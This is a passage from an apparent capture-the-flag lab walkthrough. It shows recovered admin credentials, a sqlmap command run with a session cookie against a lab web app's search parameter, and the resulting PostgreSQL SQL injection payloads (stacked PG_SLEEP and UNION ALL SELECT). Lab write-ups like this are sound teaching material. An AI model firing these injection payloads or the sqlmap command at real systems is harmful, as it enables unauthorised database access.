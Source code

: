 ```yml
user: admin
pass: qwerty789
```

Now let's try to log in to the web page.

The credentials are correct, and we log into the website.

![Desktop View](/assets/img/Vaccine/catalogue.png){: }

### Foothold
---

We have an input field to provide a search query that might be vulnerable to [LFI](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion), [RCE](https://owasp.org/www-community/attacks/Code_Injection) or [SQLi](https://owasp.org/www-community/attacks/Code_Injection).

> We can use [`sqlmap`](https://sqlmap.org/) to automate the process to determine if this webpage is vulnerable to SQL injections or not.
{: .prompt-tip }

```console
$ sqlmap -u 'http://10.10.10.46/dashboard.php?search=a' --cookie='PHPSESSID=klapkg6efqba83l147pp7619ga'
```

Payload:

```console
Parameter: search (GET)
    Type: stacked queries
    Title: PostgreSQL > 8.1 stacked queries (comment)
    Payload: search=a';SELECT PG_SLEEP(5)--

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: search=a' UNION ALL SELECT NULL,(CHR(113)||CHR(118)||CHR(118)||CHR(112)||CHR(113))||(CHR(89)||CHR(87)||CHR(113)||CHR(86)||CHR(121)||CHR(65)||CHR(75)||CHR(109)||CHR(65)||CHR(104)||CHR(77)||CHR(114)||CHR(83)||CHR(73)||CHR(112)||CHR(75)||CHR(88)||CHR(84)||CHR(109)||CHR(78)||CHR(110)||CHR(106)||CHR(84)||CHR(74)||CHR(102)||CHR(88)||CHR(73)||CHR(77)||CHR(115)||CHR(121)||CHR(70)||CHR(122)||CHR(75)||CHR(78)||CHR(114)||CHR(71)||CHR(65)||CHR(80)||CHR(98)||CHR(112))||(CHR(113)||CHR(98)||CHR(98)||CHR(112)||CHR(113)),NULL,NULL,NULL-- UnCJ
```
